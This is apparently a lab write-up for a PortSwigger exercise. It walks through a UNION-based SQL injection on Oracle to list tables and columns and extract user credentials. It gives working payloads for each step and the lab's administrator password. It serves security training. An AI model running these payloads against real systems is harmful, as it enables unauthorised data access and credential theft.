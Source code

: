 # SQL injection attack, listing the database contents on Oracle | Dec 5, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle), you'll learn: SQL injection attack, listing the database contents on Oracle! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab contains an [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-10/images/Pasted%20image%2020221205070955.png)

**In the previous labs, we found an SQL injection vulnerability in the product category filter:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-10/images/Pasted%20image%2020221205071046.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-10/images/Pasted%20image%2020221205071100.png)

And we can confirm that **this table has 2 columns.**

**However, when we use the `UNION` clause, it outputs an `500 Internal Server Error` HTTP status:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-10/images/Pasted%20image%2020221205071326.png)

In the [7th lab](https://siunam321.github.io/ctf/portswigger-labs/SQL-Injection/sqli-7), we found that **Oracle database must have `FROM` clause in `SELECT` statement.**

**To solve this error, we can use the `dual` in-memory table exploit the SQL injection vulnerbility in the product category filter.**
```sql
' UNION SELECT NULL,NULL FROM dual-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-10/images/Pasted%20image%2020221205071426.png)

**Next, we need to find which column accepts string data type:**
```sql
' UNION SELECT 'string1','string2' FROM dual-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-10/images/Pasted%20image%2020221205071514.png)

Both columns are accepting string data type.

**To extract the credentials of the `administrator` user password, I'll:**

- Find all tables that's related to `user`:

```sql
' UNION SELECT NULL,table_name FROM all_tables WHERE table_name LIKE '%user%'-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-10/images/Pasted%20image%2020221205071908.png)

The table `USERS_GCZDLS` looks sussy, let's list all columns from that table.

- Listing all columns from table `USERS_GCZDLS`:

```sql
' UNION SELECT NULL,column_name FROM all_tab_columns WHERE table_name='USERS_GCZDLS'-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-10/images/Pasted%20image%2020221205072106.png)

Table `USERS_GCZDLS` columns: `PASSWORD_BGCXGZ`, `USERNAME_SVWHIB`

Then, we can extract all the data from that table.

- Extracting data from table `USERS_GCZDLS`:

```sql
' UNION SELECT NULL,USERNAME_SVWHIB||':'||PASSWORD_BGCXGZ FROM USERS_GCZDLS-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-10/images/Pasted%20image%2020221205072242.png)

Found `administrator` password!

- Username: administrator
- Password: nrywnjxq5v4lj96pzwtn

**Let's login as `administrator`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-10/images/Pasted%20image%2020221205072332.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-10/images/Pasted%20image%2020221205072343.png)

We're user `administrator`!!

# What we've learned:

1. SQL injection attack, listing the database contents on Oracle